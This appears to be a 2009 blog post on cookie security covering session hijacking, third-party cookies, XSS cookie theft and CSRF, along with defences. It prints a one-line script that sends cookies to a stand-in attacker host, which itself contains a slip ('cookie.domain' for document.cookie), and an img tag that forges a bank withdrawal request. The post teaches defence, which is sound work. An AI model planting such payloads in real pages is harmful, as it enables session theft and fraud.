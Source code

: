 ```yaml
---
title: Cookies and security
author: Nicholas C. Zakas
permalink: /blog/2009/05/12/cookies-and-security/
categories:
  - Web Development
tags:
  - Cookies
  - HTTP
  - JavaScript
  - Security
  - Session Hijacking
  - Web Development
  - XSS
---
```

In my [last post][1], I discussed the basics of HTTP cookies and how they work. Missing from that discussion was the topic of security, mostly because it is a discussion in and of itself. Indeed, it&#8217;s hard to talk about cookies without talking about security implications since there are so many. Cookies would seem to have all the security they need by virtue of the `domain`, `path`, and `secure` options, but the nature of web pages complicates the matter significantly.

## User logins and session hijacking

One of the most common uses for cookies is to track user login state. The mechanism is quite simple: you go to a page and sign in with a username and password. If the information is valid, a cookie is sent with the next response that uniquely identifies the user. Each page in the site checks for that cookie in order to establish login credentials. As long as the cookie remains intact, you are verified as the user who originally logged in. Most sites set these cookies as session cookies, to be deleted when the browser closes, as a security measure to prevent you from remaining logged in unintentionally. Many login forms also offer a &#8220;remember me&#8221; checkbox to change this to a persistent cookie at the user&#8217;s request. Even then, most systems have a limit of one or two weeks to prevent runaway login credentials that may risk the security of the user.

The problem with this system is that it leaves a single data point for user identification. Further, cookies are sent in plain text over the Internet, making them vulnerable to [packet sniffing][2] whereby someone intercepts traffic between a computer and the Internet. Once the value of a user&#8217;s login cookie is taken, it can be used to simulate the same session elsewhere by manually setting the cookie. The server can&#8217;t tell the difference between the original cookie that was set and the duplicated one that was stolen through packet sniffing, so it acts as if the user had logged in. This type of attack is called [session hijacking][3].There are a few ways to prevent session hijacking using cookies.

The first, and most common technique among the security-conscious, is to only send cookies over SSL. Since SSL encrypts the request on the browser before transmitting across the Internet, packet sniffing alone can&#8217;t be used to identify the cookie value. Banks and stores use this technique frequently since user sessions are typically short in duration.

Another technique is to generate a session key in some random fashion and/or a way that is based on information about the user (username, IP address, time of login, etc.). This makes it more difficult to reuse a session key, though doesn&#8217;t make it impossible.

Yet another technique is to re-validate the user before performing an activity deemed to be of a higher security level, such as transferring money or completing a purchase. For example, many sites require you to log in a second time before changing a password.

## Third-party cookies

Web pages allow inclusion of resources from anyplace on the web. For example, my site uses the [YUI CSS][4] foundation for its layout and therefore includes these files from the Yahoo! CDN at `yui.yahooapis.com` via a `<link>` tag. Due to cookie restrictions, the request to retrieve this CSS resource will not include the cookies for `nczonline.net`. However, `yui.yahooapis.com` could potentially return its own cookies with the response (it doesn&#8217;t, it&#8217;s a cookie-less server). The page at `nczonline.net` cannot access cookies that were sent by `yui.yahooapis.com` because the domain is different and vice-versa, but all the cookies still exist. In this case, `yui.yahooapis.com` would be setting a third-party cookie, which is a cookie tied to a domain separate from the containing page.

There are several ways to include resources from other domains in HTML:

  * Using a `<link>` tag to include a style sheet.
  * Using a `<script>` tag to include a JavaScript file.
  * Using an `<object>` or <embed> tag to include media files.
  * Using an `<iframe>` tag to include another HTML file.

In each case, an external file is referenced and can therefore return its own cookies. The interesting part is that with the request, these third-party servers receive an HTTP `Referer` heading (spelling is incorrect in the spec) indicating the page that is requesting the resource. The server could potentially use that information to issue a specific cookie identifying the referring page. If that same resource is then loaded from another page, the cookie would then be sent along with the request and the server can determine that someone who visited Site A also visited Site B. This is a common practice in online advertising. Such cookies are often called tracking cookies since their job is to track user movement from site to site. This isn&#8217;t actually a security threat but is an important concept to understand in the larger security discussion.

### Cookie stealing and XSS

The ability to load JavaScript from a different domain onto the page opens up a particularly troublesome security hole. Even though the request for a third-party JavaScript resource doesn&#8217;t include the containing page&#8217;s cookies, the script can get access to them. All JavaScript on a page is considered to be running in the same domain, with the same path, and using the same protocol as the page itself. That means a script from loaded another domain will get that page&#8217;s cookies by reading `document.cookie`.

As an example of how dangerous this is, suppose I load a script from `evil-domain.com` that contains some actually useful code. However, the folks at `evil-domain.com` then switch that code to the following:

    (new Image()).src = "http://www.evil-domain.com/cookiestealer.php?cookie=" + cookie.domain;

Now this code is loaded on my page and silently sends my cookies back to `evil-domain.com`. This happens to everyone who visits my site. Once they have my cookies, it&#8217;s much easier to perpetrate other attacks including session hijacking. When an attack occurs due to injection of third-party JavaScript into a page, it&#8217;s called a [cross-site scripting][5] (XSS) attack.

Cookie stealing doesn&#8217;t occur just from including a malicious script on your page accidentally, it can also occur due to poor input filtering. A [simple example][6] of this is a page where the user can enter text that is output, as-is, into the page. If the text contains a `<script>` tag with the same code as above then cookies can once again be stolen.

XSS attacks like this have been perpetrated against large sites such as LiveJournal and [MySpace][7] in the past. The best protection comes in two forms:

  1. Don&#8217;t include JavaScript from untrusted domains. The CDNs of large companies such as Yahoo!, Google, and AOL should be safe; use extreme caution when including from other locations.
  2. Filter out HTML from all user input or otherwise sanitize the input. Never accept user input and output onto a page without some sort of filtering.

This is precisely why HTTP-only cookies are an important addition to standard cookie implementations. If a cookie were marked as HTTP-only, then a malicious script wouldn&#8217;t be able to access that cookie via document.cookie and therefore wouldn&#8217;t be able to steal your cookies. When HTTP-only cookies are officially supported in all browsers, it will become a valid third option. Right now, it&#8217;s a nice mitigation technique but not a preventative one.

### Cross-site request forgery (CSRF)

Another type of attack involving cookies is [cross-site request forgery][8] (CSRF). In this type of attack, the attacker is able to convince the browser to send a request on behalf of a logged-in user to do something malicious, such as transfer money into the attacker&#8217;s bank account. This can be done using the same XSS techniques discussed earlier or by using simple HTML.

Wikipedia gives a good example of someone posting a message on a forum where there is no input filtering. A user can therefore include an image that isn&#8217;t really an image, it&#8217;s a request to your bank&#8217;s server to withdraw money, such as:

    <img src="http://bank.example/withdraw?account=bob&amount=1000000&for=mallory">

If you were logged in to bank.example, meaning your cookies were still valid, then the request would be sent as soon as you viewed the forum message. The bank would validate the request because the proper cookies were sent even though you didn&#8217;t initiate the request through some action.

As with XSS, input filtering is an important tool in prevent CSRF attacks. There are a few others as well:

  * Require confirmation for any sensitive action. In this example, the page at bank.example should not initiate the withdrawal. Instead, it should display a confirmation page that requires you to validate the action being requested. The validation may include another login screen for extra security.
  * Cookies that validate users in systems with sensitive data should have a short expiration time. In some cases, an expiration period of a few minutes may be necessary.
  * Require validation not just with cookies, but also by referrer and/or request type (POST instead of GET).

CSRF attacks can be particularly tricky to track down once initiated, so prevention is key.

## Conclusion

With all of the security issues surrounding cookies, is it safe to use them? The answer is yes so long as you take the proper precautions to protect your users and systems from XSS and CSRF attacks. Input validation alone decreases the number of attacks that can be executed on your site, and it&#8217;s a very low-cost addition that pays off in big ways. There are a lot of big companies that rely on cookies for identifying their users and do so in a safe way. The most important thing you can do when using cookies is to stay informed about security issues and the latest techniques for preventing attacks.

 [1]: {{site.url}}/blog/2009/05/05/http-cookies-explained/
 [2]: http://en.wikipedia.org/wiki/Packet_sniffing
 [3]: http://en.wikipedia.org/wiki/Session_hijacking
 [4]: http://developer.yahoo.com/yui/3/cssbase/
 [5]: http://en.wikipedia.org/wiki/Cross-site_scripting
 [6]: http://www.steve.org.uk/Hacks/XSS/simple.html
 [7]: http://namb.la/popular/tech.html
 [8]: http://en.wikipedia.org/wiki/Cross-site_request_forgery
